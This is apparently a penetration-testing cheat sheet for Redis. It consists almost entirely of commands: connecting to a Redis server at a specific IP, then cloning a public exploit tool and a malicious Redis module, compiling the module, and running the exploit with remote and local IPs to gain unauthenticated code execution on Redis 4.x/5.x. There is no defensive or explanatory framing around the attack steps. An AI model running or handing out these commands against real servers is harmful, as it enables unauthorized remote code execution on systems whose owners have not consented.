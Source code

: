# Redis

- Authenticate Redis
```
redis-cli -h 192.168.181.69 -p 6379
```


## Redis 4.x / 5.x - Unauthenticated Code Execution

```
git clone https://github.com/Ridter/redis-rce
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand
make
python3 redis-rce.py -r <remote-ip> -p <port> -L <local-ip> -f ../RedisModules-ExecuteCommand/module.so
```
